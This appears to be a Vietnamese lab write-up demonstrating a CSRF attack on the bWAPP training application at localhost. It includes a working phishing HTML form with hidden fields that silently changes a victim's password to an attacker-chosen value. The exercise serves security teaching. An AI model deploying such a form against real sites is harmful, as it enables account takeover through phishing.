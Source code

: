 Capture quá trình đổi mật khẩu bằng Wireshark:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/b8d9bb11-98a3-4617-9377-db6323738475)

Ta thấy web sử dụng GET để lấy pass đổi, sử dụng 1 tệp HTML để phishing người dùng ấn vào, sẽ điều hướng người tới page đổi mật khẩu với các trường được điền sẵn pass của hacker và submit:

```
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form action="http://localhost/bwapp/csrf_1.php">
<input type="hidden" name="password&#95;new" value="KCSCHackedPassword" />
<input type="hidden" name="password&#95;conf" value="KCSCHackedPassword" />
<input type="hidden" name="action" value="change" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```

Người dùng click vào button là bị đổi pass thành `KCSCHackedPassword`:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/482a2eda-4d97-4828-b366-690e49df01ba)
